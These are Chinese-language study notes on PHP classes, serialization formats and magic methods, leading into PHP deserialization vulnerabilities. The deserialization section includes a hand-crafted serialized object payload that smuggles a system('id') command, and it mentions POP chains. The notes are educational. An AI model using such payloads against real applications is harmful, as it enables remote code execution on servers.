# 类与对象

类是对象的抽象，而对象是类的具体实例。

类是想法，把类实例化（new），调用具体值就变成了对象。

## 类的结构

类：定义类名、定义成员变量（属性）、定义成员函数（方法）

```
class Class_Name{
	//成员变量声明
	//成员函数声明
}
```

## 类的内容

创建一个类：

```
class hero{		//定义类（类名）									
	var $name;		//声明成员变量
	var $sex;		//var为一种修饰符
	function jineng($var1){		//声明成员函数（方法）
	echo $this->name;		//使用预定义$this调用成员变量
	echo $var1;				//成员函数传参$var1可直接调用
		}
	}
}

```

## 实例化和赋值

```
class hero{
	var $name;
	var $sex;
	function jineng($var1){
	echo $this->name;
	echo $var1;
	}
}	
$cyj= new hero()			//实例化类hero()为对象cyj
$cyj->name='chengyaojin';   //参数赋值
$cyj->sex='man';            
$cyj->jineng('zuofan');     //调用函数 
print_r($cyj);              //打印对象cyj
```

## 类的修饰符

在类中直接声明的变量称为成员属性（也可以成为成员变量）。

可以在类中声明多个变量，即"对象"中可以有多个成员属性，每个变量都存储"对象"不同的属性信息

**访问权限修饰符：对属性的定义**

**常用的访问权限修饰符：**

- `pubilc`：公共的，在类的内容、子类中或者类的外部都可以使用，不受限制;
- `protected`：受保护的，在类的内部、子类中可以使用，但不能再类的外部使用;
- `private`：私有的，只能在类的内部使用，在类的外部或者子类中都无法使用



## 类的成员方法

在类中定义的函数被称为成员方法

函数实现的是某个独立的功能;

成员方法实现的是类中的一个行为，是类的一部分

可以在类中声明多个成员方法，成员方法的声明和函数声明完全一样，只不过在声明成员方法时可以在function关键字前加一些访问权限修饰符，如public、protected、private（可以省略，默认为public）

```
class Students{
	var $name;
	public $age;
	private $sex
	protected $school;
	protected static function Read(){
	}
	function Listen(){
	}
}
```

# 序列化

序列化是将对象的状态信息（属性）转换为可以存储或传输的形式的过程。



将对象或者数组转化为可储存/传输的字符串。

在php中使用函数serialize()来将对象或者数组进行序列化，并返回一个包含字节流的字符串来表示

表达方式：

```
<?php
$a = null;
echo serialize($a);
?>
```

所有格式第一位都是数据类型的英文字母简写。

**注意：后面一定要加`;`这才是序列化完整的表达方式**



## 数组序列化



a对应array即数组，3对应数组内参数的数量

i:0对应编号第0位即"benben"，s对应string字符串，6对应有6个字符，"benben"即内容

## 对象序列化



序列化后的内容：

```
O:4:"test":1:{s:3:"pub";s:6:"benben";}
```

注意：

- 不能序列化类，可以序列化对象
- 只序列化成员变量，不序列化成员函数

---

**private私有属性序列化时，在变量名前加"%00类名%00"**



**%00是url编码，ascii编码为空，二进制的00**

**一般在输出序列化格式时要先转换成url编码**

echo urlencode(serialize($a));

序列化后的内容：

00隔开，'pub'时'test'的私有属性

```
O:4:"test":1:{s:9:"0testpub0";s:6:"benben";}
```

---

**protected受保护属性序列化时，在变量名前加%00*%00**



---

**对象调用另一个对象的序列化**



**test2类在实例化时，将其中成员属性$ben又被赋值成了test实例化后的对象**

**序列化的对象中包含一个序列化的对象**

下面的操作和上面序列化后输出的结果相同



# 反序列化

1. **反序列化之后的内容为一个对象**
2. **反序列化生成的对象里的值，由反序列化里的值提供；与原有类预定义的值无关**
3. **反序列化不触发类的成员方法；需要调用方法才能触发**

## 反序列化的作用

将序列化后的参数还原成实例化的对象



**注意：反序列化后的对象是不存在成员方法的，需要调用类的方法才能触发**

## 反序列化漏洞利用

**反序列化漏洞的成因：反序列化过程中，unserialize（）接收的值（字符串）可控的，通过更改这个值（字符串），得到所需要的代码，即生成的对象的属性值。**

**通过调用方法，触发代码执行**

实例：



**手动构造序列化字符串：**

```
O:4:"test":1:{s:1:"a";s:13:"system("id");";}
```

# 魔术方法

### 常用知识

```
private变量会被序列化为：/x00类名/x00变量名
protected变量会被序列化为: /x00/*/x00变量名 
public变量会被序列化为：变量名
在PHP中，类不区分大小写

__sleep()    //在对象被序列化之前运行  *

__wakeup()   //将在反序列化之后立即调用  *
如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法， 则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略。此特性自 PHP 7.4.0 起可用。
__construct() //当对象被创建时，会触发进行初始化
__destruct() //对象被销毁时触发
__toString()： //当一个对象被当作字符串使用时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //获得一个类的成员变量时调用,用于从不可访问的属性读取数据（不可访问的属性包括：1.属性是私有型。2.类中不存在的成员变量）
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试以调用函数的方式调用一个对象时

```

---

**魔术方法：**

**一个预定义好的，在特定情况下自动触发的行为方法。**

**作用：**

**魔术方法在特定条件下自动调用相关方法，最终导致触发代码**

**魔术方法相关机制（即魔术方法学习的重要四点）**


**需要掌握的一些魔术方法：**



## __construct和\_\_destruct()

**__construct()**

构造函数，在实例化一个对象时，首先回去自动执行的一个方法

**触发时机：在实例化对象时**

**功能：提前清理不必要的内容**

---

**__destruct()**

析构函数，在对象的所有引用被删除或者当对象被显式销毁时执行的魔术方法，在方法调用时会触发一次，在反序列化时会触发一次

**触发时机:对象引用完成或对象被销毁**

**注意：**

1. **实例化对象结束后，代码运行完会销毁，触发析构函数**
2. **在序列化过程中不会触发**
3. **在反序列化过程中会触发；反序列化得到的是对象，用完后会销毁，触发析构函数__destruct()**

## \_\_sleep()和\_\_wakeup()

**__sleep()**

序列化serialize()函数会检查类中是否存在一个魔术方法**__sleep()。**

**如果存在，该方法会先被调用，然后才执行序列化操作。**

此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。

如果该方法未返回任何内容，则NULL被序列化，并产生一个E_NOTICE级别的错误

**触发时机：序列化serialize()之前**

**功能：对象被序列化之前触发，返回需要被序列化存储的成员属性，删除不必要的属性**

**参数：成员属性**

**返回值：需要被序列化存储的成员属性**

实例：



---

**__wakeup**

unserialize()会检查是否存在一个__wakeup()方法。

如果存在，则会先调用__wakeup()方法，预先准备对象需要的资源。

预先准备对象资源，返回void，常用与反序列化操作中重新建立数据库连接或执行其他初始化操作。

**触发时机：反序列化unserialize()之前**

对比：

__wakeup()在反序列化unserialize()之前

__destruct()在反序列化之后

实例：



## \_\_toString()和\_\_invoke()

__toString()

表达方式错误导致魔术方法触发

**触发时机：把对象当成字符串调用**

常用与构造POP链

实例：



把类User实体化并赋值给$test,此时$test是个对象，调用对象可以使用print_r或者var_dump。

如果使用ehco或者print只能调用字符串的方式去调用对象，即把对象当成字符串使用，此时自动触发toString()

---

**__invoke()**

格式表达错误导致魔术方法触发

**触发时机：把对象当成函数调用**



## 错误调用相关魔术方法

### __call()

**触发时机：调用一个不存在的方法**

参数：2个参数传参$arg1，$arg2

返回值：调用的不存在的方法的名称和参数

实例：



$arg2是数组类型的变量，我们调用的传参即为$arg2[0]

---


### __callStatic()

**触发时机：静态调用或调用成员变量时使用的方法不存在**

参数：2个参数传参$arg1,$arg2

返回值：调用的不存在的方法的名称和参数



静态调用：其实就是把->换成::

---


### __get()

**触发时机：调用的成员属性不存在**

参数：传参$arg1

返回值：不存在的成员属性的名称


---


### __set()

**触发时机：给不存在的成员属性赋值**

参数：传参$arg1,$arg2

返回值：不存在的成员属性的名称和赋的值

